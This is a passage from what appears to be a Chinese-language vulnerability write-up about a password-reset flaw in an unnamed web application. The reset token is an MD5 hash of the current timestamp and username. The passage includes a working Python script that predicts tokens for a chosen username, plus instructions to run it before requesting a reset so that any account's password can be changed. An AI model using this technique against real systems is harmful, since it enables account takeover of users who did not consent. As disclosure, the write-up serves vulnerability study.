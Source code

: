 ```
我们可以看到它的核心代码是根据+用户名生成一个 token 来进行验证修改密码。导致该代码存在一个很严重的逻辑型漏洞，比如我们可以编写一个脚本也同样根据时间和用户名生成 token，来实现任意用户密码修改的目的。
```

![image-20250224010933396](static/image/image-20250224010933396.png)

```python
# 以下是我用python编写的一个生成token的脚本
import time
import datetime
import hashlib

def getpwd():
    hash_str = hashlib.md5()
    date_time = int(time.time())
    users = "test" # 这里更改成我们要修改的用户名
    text = str(date_time) + users
    hash_str.update(text.encode(encoding='utf-8'))
    md5 = hash_str.hexdigest()
    print(str(md5))

if __name__ == '__main__':
    for i in range(60):
        getpwd()
        time.sleep(1)
```

```
然后我们先运行脚本，再去输入用户名发送请求找回密码。
```
